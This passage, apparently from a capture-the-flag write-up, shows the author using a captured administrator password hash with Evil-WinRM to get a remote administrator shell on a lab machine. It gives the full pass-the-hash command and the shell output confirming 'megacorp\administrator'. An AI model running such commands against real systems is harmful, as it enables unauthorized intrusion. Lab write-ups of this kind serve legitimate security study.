 I can now use the administrator hash to get [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

root@kali# evil-winrm -u administrator -i 10.10.10.179 --hash 69cbf4a9b7415c9e1caf93d51d971be0

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megacorp\administrator

```
